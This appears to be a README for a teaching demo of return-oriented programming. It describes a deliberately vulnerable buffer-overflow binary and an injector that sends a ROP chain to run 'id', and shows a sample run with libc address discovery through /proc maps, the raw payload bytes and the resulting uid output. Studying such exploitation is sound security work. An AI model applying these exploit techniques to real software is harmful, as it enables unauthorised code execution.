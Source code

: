 Original paper from Benjamin Randazzo <benjamin@linuxcrashing.org>
with source code transcripted for convenience.

There are also two test programs:

 - ``vuln``: a simple buffer overflow compiled without ``pie``
 - ``injecter``: a program that inject a ``ROP`` payload that executes the ``id`` command

Usage:

     $./injecter ./vuln
     [+] just forked pid 7887
     [+] forked './vuln'
     [>] Please enter your code: 
     [press RETURN key to continue] if you want to debug the injection attach it from gdb
    cmd: cat /proc/7887/maps | grep '/lib/i386-linux-gnu/i686/cmov/libc-2.19.so' | grep r-xp | cut --field=1 --delimiter='-'
     [+] libc base address: 0xf7526000
     [+] libc .data address: 0xf76cd040
     [<] AAAAAAAAAAAAAAAAAAAAAAAADCBA�7a�����/usr@�l�_;U��7a�����/binD�l�_;U��7a�����//idH�l�_;U��7a���������L�l�	^i�_;U�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�_;U��7a�����@�l�P�l�_;U��7a�T�l�P�l�����LOU�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R�,�R���S�@�l��EU�
     [>] uid=1000(packz) gid=1000(packz)
# Link

 - http://www.shell-storm.org/blog/Return-Oriented-Programming-and-ROPgadget-tool/
 - http://tk-blog.blogspot.fr/2009/02/relro-not-so-well-known-memory.html
 - http://xorl.wordpress.com/2010/10/14/linux-glibc-stack-canary-values/
